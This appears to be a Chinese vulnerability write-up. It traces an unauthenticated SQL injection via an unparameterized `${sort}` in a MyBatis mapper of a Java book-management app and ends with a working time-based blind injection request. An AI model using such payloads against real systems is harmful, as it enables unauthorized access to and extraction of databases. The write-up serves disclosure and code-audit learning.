

首先在 `src\main\resources\mybatis\mapping\BookMapper.xml` 中发现 `${sort}` ，存在 sql 注入：


向上跟踪到 Dao 层：



继续跟踪到 Service 层：


跟踪到 Controller 层：


该接口不存在鉴权，因此存在前台sql注入，payload：

```
GET /book/searchByPage?sort=if(SUBSTR(DATABASE(),1,1)='n',sleep(1),1) HTTP/1.1
Host: 192.168.111.71:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.6832.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.111.71:8080/book/bookclass.html?k=111111
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="134", "Chromium";v="134"
sec-ch-ua-platform: "Linux"
sec-ch-ua-mobile: ?0
Connection: close


```

